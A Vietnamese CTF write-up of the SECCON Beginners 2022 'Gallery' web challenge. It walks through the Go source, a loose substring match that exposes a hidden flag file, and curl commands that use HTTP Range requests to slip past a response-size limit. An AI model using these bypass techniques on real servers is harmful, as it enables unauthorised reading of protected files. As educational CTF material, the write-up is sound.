 ## SECCON BEGINNER CTF 2022

### Gallery

Chỉnh sửa cấu hình để build:
```s
version: '3'
services:
  api:
    container_name: "api"
    build: ./backend
    volumes:
      - ./backend:/go/src/backend
    restart: always
  
  nginx:
    container_name: "nginx"
    build: ./nginx
    ports:
      - 8080:80
    depends_on:
      - api
    restart: always
```
```s
server {
    listen 80;
    server_name  localhost;

    merge_slashes off;

    location / {
        proxy_pass http://api:8080;
    }
}
```

Nó sử dụng mux để điều khiển các routers.
```go
package main

import (
	"bytes"
	"net/http"

	"github.com/gorilla/mux"
)

const (
	PORT = "8080"
	DIR  = "static"
)

type MyResponseWriter struct {
	http.ResponseWriter
	lengthLimit int
}

func (w *MyResponseWriter) Header() http.Header {
	return w.ResponseWriter.Header().Clone()
}

func (w *MyResponseWriter) Write(data []byte) (int, error) {
	filledVal := []byte("?")

	length := len(data)
	if length > w.lengthLimit {
		w.ResponseWriter.Write(bytes.Repeat(filledVal, length))
		return length, nil
	}

	w.ResponseWriter.Write(data[:length])
	return length, nil
}

func middleware() func(http.Handler) http.Handler {
	return func(h http.Handler) http.Handler {
		return http.HandlerFunc(func(rw http.ResponseWriter, r *http.Request) {
			h.ServeHTTP(&MyResponseWriter{
				ResponseWriter: rw,
				lengthLimit:    10240, // SUPER SECURE THRESHOLD
			}, r)
		})
	}
}

func main() {
	r := mux.NewRouter()
	r.PathPrefix("/images/").Methods("GET").Handler(http.StripPrefix("/images/", http.FileServer(http.Dir(DIR))))

	r.HandleFunc("/", IndexHandler)

	http.ListenAndServe(":"+PORT, middleware()(r))
}
```

Chứa middleware dùng để limit giới hạn trả về cho người dùng.

```go
package main

import (
	"html/template"
	"log"
	"net/http"
	"os"
	"strings"
)

type Embed struct {
	ImageList []string
}

func IndexHandler(w http.ResponseWriter, r *http.Request) {
	t, err := template.New("index.html").ParseFiles("./static/index.html")
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		log.Println(err)
		return
	}

	// replace suspicious chracters
	fileExtension := strings.ReplaceAll(r.URL.Query().Get("file_extension"), ".", "")
	fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
	if fileExtension == "" {
		fileExtension = "jpeg"
	}
	log.Println(fileExtension)

	data := Embed{}
	data.ImageList, err = getImageList(fileExtension)
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		log.Println(err)
		return
	}

	if err := t.Execute(w, data); err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		log.Println(err)
		return
	}
}

func getImageList(fileExtension string) ([]string, error) {
	files, err := os.ReadDir("static")
	if err != nil {
		return nil, err
	}

	res := make([]string, 0, len(files))
	for _, file := range files {
		if !strings.Contains(file.Name(), fileExtension) {
			continue
		}
		res = append(res, file.Name())
	}

	return res, nil
}
```

Trong handlers.go:
- Biến fileExtension filter dấu '.', đó gọi đến getImageList.
- Logs ra là thấy ta nhập vào gì thì `log.Println(fileExtension)` sẽ in ra như vậy, ngoại trừ những dấu '.'
```s
rayinaw@rune:/mnt/hgfs/vmware/seccon-beginners-2022/gallery$ docker logs 8f9f009f5512
2023/04/21 19:42:36 jpeg
2023/04/21 19:43:03 gif
2023/04/21 19:43:11 jpeg
2023/04/21 19:43:12 png
2023/04/21 19:43:24 aaa
2023/04/21 19:43:28 gif
2023/04/21 19:45:01 jpeg
2023/04/21 19:45:06 jpeg
2023/04/21 19:45:15 jpeg
2023/04/21 20:05:09 gif
2023/04/21 20:05:15 /////////////
2023/04/21 20:05:21 ////
2023/04/21 20:05:23 /
2023/04/21 20:05:26 //
2023/04/21 20:05:46 /
2023/04/21 20:05:51 jpeg
2023/04/21 20:06:25 //////////////////
2023/04/21 20:08:43 skdfjkdsjlfkjds
```
-Trong getImageList, đoạn so sánh không chặt chẽ: `!strings.Contains(file.Name(), fileExtension)` nên nếu chỉ cần trùng một ký tự là file sẽ show ra.
```s
http://localhost:8080/?file_extension=a
flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf
```
Bây giờ để lấy ra file này, ta cần đọc từ từ từng 10240 bytes.

```s
curl -X GET -H 'Range: bytes=0-10239' http://localhost:8080/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf --output - > 0.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10240    0 10240    0     0  1111k      0 --:--:-- --:--:-- --:--:-- 1111k
```

```s
curl -X GET -H 'Range: bytes=10240-20479' http://localhost/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf --output - > 1.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5845    0  5845    0     0   815k      0 --:--:-- --:--:-- --:--:--  815k
```
5845<10240, vậy là đã đọc hết bytes.
cat 0.pdf 1.pdf > flag.pdf
Mở file flag.pdf để lấy flag.


